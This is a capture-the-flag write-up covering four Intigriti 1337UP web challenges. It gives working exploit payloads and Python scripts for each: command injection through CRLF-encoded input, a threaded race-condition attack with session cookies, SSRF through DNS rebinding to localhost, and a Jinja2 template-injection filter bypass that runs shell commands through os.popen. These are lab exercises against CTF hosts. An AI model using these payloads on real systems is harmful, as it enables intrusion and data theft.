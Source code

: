 # Traveler
## Solution
Command injection: 

![img](./img/1.png)

We can bypass with ``%26`` (aka ``&``) or with ``%0d%0a``(aka CRLF) work as well :

``payload``: ``Single%0d%0als%20-lsa`` 

![img](./img/2.png)

Read flag: ``Single%0d%0acat%20/flag.txt``

![img](./img/3.png)

# Quiz
## Solution 
This chall is all about race condition when submitting answers

Reference: [here](https://bizflycloud.vn/tin-tuc/race-condition-la-gi-lam-sao-de-khai-thac-20180116193609705.htm)

So the solution here is to create multi thread and send the request at the same time

```
#!python3
import requests
import threading
from multiprocessing.dummy import Pool as ThreadPool
cookies={
    'INGRESSCOOKIE':'1647154420.414.13402.417373|df18c7a37b01201195c3bf2ff6aa23c8',
    'connect.sid':"s%3AI0J6D-OLWqntaWNpYGx_lQsEcNBtDW1m.WiioLQU6iuskoVWIDBjbDHaXIyuDLpIg%2FpakO5eIWYM"
}
json_data = {"questionNumber":2,"answer":"10"}

def runner(d):
	r1 = requests.post('https://quiz.ctf.intigriti.io/submitAnswer', cookies=cookies,json=json_data)
	r2 = requests.get('https://quiz.ctf.intigriti.io/user', cookies=cookies)


## Solution 1: Use multiprocessing.dummy

# pool = ThreadPool(40)
# result = pool.map_async(runner,range(40))
# r2 = requests.get('https://quiz.ctf.intigriti.io/buyFlag', cookies=cookies)
# print(r2.text)

## Solution 2: Use threading
threads=[]
for i in range(50):
    t=threading.Thread(target=runner,args=[i])
    t.start()
    threads.append(t)
for thread in threads:
    thread.join()
print(threads)
r2 = requests.get('https://quiz.ctf.intigriti.io/buyFlag', cookies=cookies)
print(r2.text)


#Congratulations! Here is your flag: 1337UP{this_is_a_secret_flag}
```

# Dead Tube
## Solution
DNS Rebinding:

Use [this](https://lock.cmpxchg8b.com/rebinder.html) to gererate host name for dns rebinding between 127.0.0.1 and ``https://deadtube.ctf.intigriti.io/`` (aka ``35.205.87.74``)

hostname: ``7f000001.23cd574a.rbndr.us``

```
#!python3

import requests

data={
    'link':'http://7f000001.23cd574a.rbndr.us:8080/flag'
}
url='https://deadtube.ctf.intigriti.io/preview'
header={
    'Content-Type': 'application/x-www-form-urlencoded'
}
for i in range(1000):
    r=requests.post(url,headers=header,data=data)
    if "1337" in r.text:
        print(r.text)
        break
```

flag: 1337UP{SSRF_AINT_GOT_NOTHING_ON_M3}

# 1 truth, 2 lies
## Solution

sourcecode: [here](./src/app.py)

SSTI: in order to bypass``{'.', '_', '|join', '[', ']', 'mro', 'base'}``, this payload'll work:

``{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat *')|attr('read')()}}"
``

Reference: [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---filter-bypass)

script:

```
#!python3

import requests

url="https://1truth2lies.ctf.intigriti.io/"

path="""
 ▄█    ▄▄▄▄███▄▄▄▄         ▄█    █▄  ███    █▄   ▄█       ███▄▄▄▄      ▄████████    ▄████████    ▄████████ ▀█████████▄   ▄█          ▄████████ 
███  ▄██▀▀▀███▀▀▀██▄      ███    ███ ███    ███ ███       ███▀▀▀██▄   ███    ███   ███    ███   ███    ███   ███    ███ ███         ███    ███ 
███▌ ███   ███   ███      ███    ███ ███    ███ ███       ███   ███   ███    █▀    ███    ███   ███    ███   ███    ███ ███         ███    █▀  
███▌ ███   ███   ███      ███    ███ ███    ███ ███       ███   ███  ▄███▄▄▄      ▄███▄▄▄▄██▀   ███    ███  ▄███▄▄▄██▀  ███        ▄███▄▄▄     
███▌ ███   ███   ███      ███    ███ ███    ███ ███       ███   ███ ▀▀███▀▀▀     ▀▀███▀▀▀▀▀   ▀███████████ ▀▀███▀▀▀██▄  ███       ▀▀███▀▀▀     
███  ███   ███   ███      ███    ███ ███    ███ ███       ███   ███   ███    █▄  ▀███████████   ███    ███   ███    ██▄ ███         ███    █▄  
███  ███   ███   ███      ███    ███ ███    ███ ███▌    ▄ ███   ███   ███    ███   ███    ███   ███    ███   ███    ███ ███▌    ▄   ███    ███ 
█▀    ▀█   ███   █▀        ▀██████▀  ████████▀  █████▄▄██  ▀█   █▀    ██████████   ███    ███   ███    █▀  ▄█████████▀  █████▄▄██   ██████████ 
                                                ▀                                  ███    ███                           ▀"""

payload=r"{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat *')|attr('read')()}}"

header={
    'Content-Type': 'application/x-www-form-urlencoded'
}
r=requests.get(url+path+'?input='+payload)
print(r.text)
```

``flag:flag{1ea5n_h0w_vu1n_h1ppen_and_wh1t_l1ne_m1ke_vu1n!!!}``